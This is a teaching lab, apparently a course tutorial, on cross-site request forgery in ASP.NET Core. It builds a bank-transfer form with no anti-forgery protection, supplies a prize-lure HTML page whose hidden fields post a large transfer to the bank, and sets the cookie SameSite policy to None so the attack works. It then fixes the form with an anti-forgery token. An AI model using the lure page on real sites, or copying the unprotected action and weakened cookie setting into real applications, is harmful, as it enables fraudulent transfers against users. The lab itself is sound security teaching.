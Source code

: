# Cross-Site Request Forgery (XSRF/CSRF) Attacks 

<!-- vscode-markdown-toc -->
* 1. [Objectives](#Objectives)
* 2. [Documentation](#Documentation)
* 3. [Step 1 - Create an application with individual user accounts](#Step1-Createanapplicationwithindividualuseraccounts)
* 4. [Step 2 - Add the CSRF vulnerable webpage](#Step2-AddtheCSRFvulnerablewebpage)
* 5. [Malicious or infected web site](#Maliciousorinfectedwebsite)
* 6. [Attacks](#Attacks)
* 7. [Bibliography](#Bibliography)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc --> 

##  1. <a name='Objectives'></a>Objectives

##  2. <a name='Documentation'></a>Documentation
Cross-site request forgery (also known as XSRF or CSRF, pronounced see-surf) is an attack against web-hosted apps whereby a malicious web app can influence the interaction between a client browser and a web app that trusts that browser. These attacks are possible because web browsers send some types of authentication tokens automatically with every request to a website. This form of exploit is also known as a one-click attack or session riding because the attack takes advantage of the user's previously authenticated session.

> Recommended further reading: Open Web Application Security Project - OWASP (description of the vulnerability in general): https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF); CSRF in ASP.NET: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery

# Vulnerable website - IronBank Web'Banking

##  3. <a name='Step1-Createanapplicationwithindividualuseraccounts'></a>Step 1 - Create an application with individual user accounts

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create a new "ASP.NET Core Web App (Model-View-Controller)" project named "IronBankWeb".

2. For "Authentication type" choose "Indvidual Accounts".

3. Notice that in the "Data" folder the application already includes the necessary database migrations.

4. Create an SQL Server database and update the connection string in `appsettings.json`.

5. Run the application.

6. Choose the "Register" link and create a new account.

##  4. <a name='Step2-AddtheCSRFvulnerablewebpage'></a>Step 2 - Add the CSRF vulnerable webpage

1. Add a new controller, called `BankAccountController`.
2. Decorate the controller using the `[Authorize]` annotation in order to prevent any unauthenticated requests towards the actions on this controller.
3. Add an action called `Transfer` to the `BankAccountController` as follows.

    ```C#
    public IActionResult Transfer()
    {
        return View();
    }
    ```

4. Add a new viewmodel class to the `Models` folder.

    ```C#
    public class TransferViewModel
    {
        [Required]
        public string DestinationAccount { get; set; }
        [Required]
        public decimal? Amount { get; set; }
    }
    ```

4. Add a new View for the `Transfer` action.

    ```CSHTML
    @model TransferViewModel
    @{
        ViewData["Title"] = "Transfer";
    }

    <h2>Transfer</h2>

    @if(TempData["message"] != null)
    {
        <div class="alert alert-danger">
            @TempData["message"]
        </div>
    }

    <form method="post">
        <label asp-for="DestinationAccount"></label>
        <input asp-for="DestinationAccount" />
        <label asp-for="Amount"></label>
        <input asp-for="Amount" />
        <input type="submit" />
    </form>
    ```

5. Add a `POST` method for the form in the View

    ```C#
    [HttpPost]
    public IActionResult Transfer(TransferViewModel transfer)
    {
        if (ModelState.IsValid)
        {
            TempData["Message"] = $"You have transfered {transfer.Amount} euros to {transfer.DestinationAccount}.";
            return RedirectToAction(nameof(Transfer));
        }
        return View(transfer);
    }
    ```

##  5. <a name='Maliciousorinfectedwebsite'></a>Malicious or infected web site

> :octocat: Full source code available, check the `10 - Vulnerabilities - CSRF (Cross-Site Request Forgery)` folder.

1. Create an `html` file with the following content.

    ```HTML
    <!DOCTYPE html>
    <html>
    <head>
        <title>Malicious or infected web site</title>
    </head>
        <body style="text-align:center;">

            <img src="winner.jpg">

            <h1>Congratulations!</h1>
            <h1>You have won a Samsung Galaxy Fold (2.000 euros)!!!!</h1>
            <form action="http://good-banking-site.com/api/account" method="post">
                <input type="hidden" name="DestinationAccount" value="RO85INGBXXXXXXXXXX">
                <input type="hidden" name="Amount" value="1000000">
                <input type="submit" value="Click to collect your prize!">
            </form>
        </body>
    </html>
    ```

2. You will need to replace "http://good-banking-site.com/api/account" with the actual address of the vulnerable form (ex: https://localhost:5001/BankAccount/Transfer).

##  6. <a name='Attacks'></a>Attacks

1. Try to perform the attack. You will notice that in modern browsers the attack is not working. 
2. Check the cookie policy in Google Chome.. Notice that the `AspNetCore.Identity.Application` cookie has the `SameSite` policy set to `Strict`. Let's change the `SameSite` policy to `SameSiteMode.None` by adding the following code to the `Main` method of the `Program` class.

    > Documentation for `SameSite`: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#samesitesamesite-value

    > Potentially valid reasons for setting the `SameSite` policy to `SameSiteMode.None`: https://andrewlock.net/understanding-samesite-cookies/#:~:text=The%20one%20advantage%20of%20SameSite,and%20Lax%20won't%20work.

    ```C#
    builder.Services.ConfigureApplicationCookie(options =>
    {
        options.Cookie.SameSite = SameSiteMode.None;
    });
    ```
3. Try to perform the attack again. The attack should work successfully. 
4. Let's prevent the attack by adding the `[ValidateAntiForgeryToken]` annotation to the `Transfer` action, as shown below.

    ```C#
    [HttpPost]
    [ValidateAntiForgeryToken]
    public IActionResult Transfer(TransferViewModel transfer)
    {
        ....
    }
    ```
5. Check the hidden input in the form and the cookies set by the application.

    > Have you noticed that the token in the cookie and the one in the hidden input are different? You can read more about the reason at: https://stackoverflow.com/questions/20911470/why-is-there-a-difference-in-the-validateantiforgerytoken-cookie-value-and-hidde

##  7. <a name='Bibliography'></a>Bibliography
- Prevent Cross-Site Request Forgery (XSRF/CSRF) attacks in ASP.NET Core: https://docs.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?
- OWASP CSRF: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
